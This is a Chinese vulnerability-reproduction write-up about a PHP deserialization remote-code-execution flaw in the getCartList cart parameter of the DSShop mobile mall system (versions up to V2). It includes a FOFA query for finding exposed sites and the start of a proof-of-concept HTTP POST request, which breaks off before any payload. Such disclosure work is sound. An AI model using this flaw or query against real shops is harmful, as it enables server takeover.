 
# DSShop 移动商城网店系统 反序列化 RCE 漏洞复现

### 0x01 产品简介

   DSShop 是长沙德尚网络科技有限公司推出的一款单店铺移动商城网店系统，能够帮助企业和个人快速构建手机移动商城，并减少二次开发带来的成本。  
以其丰富的营销功能，精细化的用户运营，解决电商引流、推广难题，帮助企业打造生态级 B2C 盈利模式商业平台。完备的电商功能，为企业提升了行业电商品牌的美誉度。系统安全、稳定、快速，便捷的功能扩展及可以进行二次开发的多用户商城源码，为企业电商业务长线快速发展提供了强有力的保障。适用企业：各类百货 MALL、行业实体市场、电商产业园、行业协会、行业门户网站等。

### 0x02 漏洞概述

  DSShop 单店铺移动商城网店系统的 getCartList 方法的 cart 参数存在 php 反序列化漏洞，攻击者可以通过漏洞执行任意代码，获取服务器权限。

### 0x03 影响范围

DSShop <=V2

### 0x04 复现环境

FOFA：title="德尚商城 - 程序来源于德尚网络"

![](assets/1701746457-cc4dc949c9bc53ebb3db24b4ba1a3b46.png)

### 0x05 漏洞复现 

PoC

```http
POST /index.php?s=home/article/index HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
C
```
